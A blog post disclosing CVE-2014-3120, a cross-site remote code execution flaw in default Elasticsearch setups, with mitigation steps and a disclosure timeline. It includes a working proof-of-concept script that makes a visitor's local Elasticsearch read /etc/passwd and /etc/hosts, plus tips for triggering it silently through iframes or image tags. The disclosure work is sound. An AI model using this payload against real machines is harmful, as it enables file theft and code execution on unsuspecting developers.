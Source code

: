 ```yaml
---
layout: post
title: Insecure default in Elasticsearch enables remote code execution

---
```


Elasticsearch has a flaw in its default configuration which makes it possible for any webpage to execute arbitrary code on visitors with Elasticsearch installed. If you're running Elasticsearch in development please read [the instructions](#how_to_secure_against_this_vulnerability) on how to secure your machine. Elasticsearch version 1.2 (which is unreleased as of writing) is not vulnerable to remote code execution, but still has some security concerns.

## The problem(s)
There are a couple of problems which enable the proof of concept I'm going to present:

* Elasticsearch has no access roles or authentication mechanism. This means that you have full control over a cluster the moment you connect to it.
* The API for Elasticsearch is accessible over <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-http.html" target="_blank">HTTP</a> and provides no CSRF protection whatsoever.
* It contains a <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html" target="_blank">feature</a> which makes it possible to evaluate expressions as part of a query. An example usage of this feature is to specify a custom scoring function while searching through documents. It uses the [MVEL](http://mvel.codehaus.org/) language by default.
* Up to version 1.2 <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_enabling_dynamic_scripting" target="_blank">dynamic scripting</a> (which makes it possible to send scripts to the cluster on the fly) was enabled by default. As mentioned in the documentation, this feature gives someone the same priviliges as the user that runs Elasticsearch. MVEL has no sandboxing at all.

There are no issues up to this point as long as you properly follow the documentation and make sure your Elasticsearch cluster is not available from the outside world. There is one target that isn't mentioned in the documentation though: The Developer! When you're developing an application that uses Elasticsearch, you probably have it running on your machine. The default port is `9200` and because there is no CSRF protection any webpage can just connect to the cluster using `localhost:9200` as the host.

## PoC
The following script will read `/etc/hosts` and `/etc/passwd` from a user visiting a webpage and display the contents in the browser.

{% highlight coffeescript %}
read_file = (filename) ->
  """
  import java.io.File;
  import java.util.Scanner;
  new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
  """

# This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
$ ->
  payload = {
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {}
  }

  for filename in ["/etc/hosts", "/etc/passwd"]
    payload["script_fields"][filename] = {"script": read_file(filename)}

  $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
    console.log(data)
    for hit in data["hits"]["hits"]
      for filename, contents of hit["fields"]
        document.write("<h2>#{filename}</h2>")
        for content in contents
          document.write("<pre>" + content + "</pre>")
        document.write("<hr>")
{% endhighlight %}

You can verify whether you're vulnerable by trying out the above PoC <a href="/blog/elasticsearch-rce/poc.html" target="_blank">here</a>.

There are many ways to exploit this, you could link the victim to the page or embed it as an Iframe. You can even exploit this by crafting a URL and using it as the `src` of an `<img>`, as the only thing that needs to happen is a single GET request. No user interaction required!

Because this is so easily exploitable you can mass-pwn developers with relatively little work.

## How to secure against this vulnerability

Add the following line to your `elasticsearch.yml` to disable dynamic scripting and prevent remote code execution:

{% highlight yaml %}
script.disable_dynamic: true
{% endhighlight %}

You should also make sure that your local Elasticsearch instance is only binding on `localhost`, as someone could exploit you over LAN if you don't. The Homebrew Elasticsearch formula does this automatically.

If you want to be as secure as possible, you should run Elasticsearch inside a virtual machine, to make sure it has no access to the hosting machine at all.

## Additional targets

Disabling scripting will prevent code execution, but that still leaves us with the issue of being able to query and administer the instance without limit. A webpage can easily dump the whole database running on your machine, sensitive data included. This is impossible to fix by the Elasticsearch developers without adding authentication or CSRF protection.

If an attacker can figure out the internal address of your production Elasticsearch instance, you're also open to leaking your production data. If your development machine is connected to a VPN which provides access to your Elasticsearch cluster, an attacker can easily query or [shut down](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/cluster-nodes-shutdown.html) your cluster simply by making you visit a webpage.

### Notes

* I have reserved [CVE-2014-3120](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120) for this issue.
* This exploit was tested against Elasticsearch version 1.1.1 on MacOSX installed through Homebrew. No configuration changes were made.
* I notified Elasticsearch through their [security report instructions](http://www.elasticsearch.org/community/security/) on the 26th of April 2014. They replied they were aware of it, but didn't intend to do a security release and instead [disable](https://github.com/elasticsearch/elasticsearch/issues/5853) dynamic scripting by default in version 1.2.
* This security issue has been indepently discovered and [blogged about](https://www.found.no/foundation/elasticsearch-security/#staying-safe-while-developing-with-elasticsearch) on December 9th 2013.
